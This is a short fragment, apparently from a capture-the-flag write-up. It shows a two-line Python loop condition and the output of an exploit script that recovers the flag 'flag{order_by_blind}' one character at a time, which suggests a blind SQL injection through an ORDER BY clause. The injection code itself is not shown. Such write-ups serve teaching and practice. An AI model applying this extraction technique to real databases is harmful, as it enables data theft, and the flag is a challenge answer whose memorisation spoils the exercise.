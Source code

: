 ```python
    if flag[-1] == '}':
        break
```

```
$ ./exploit.py
f
fl
fla
flag
flag{
flag{o
flag{or
flag{ord
flag{orde
flag{order
flag{order_
flag{order_b
flag{order_by
flag{order_by_
flag{order_by_b
flag{order_by_bl
flag{order_by_bli
flag{order_by_blin
flag{order_by_blind
flag{order_by_blind}
```

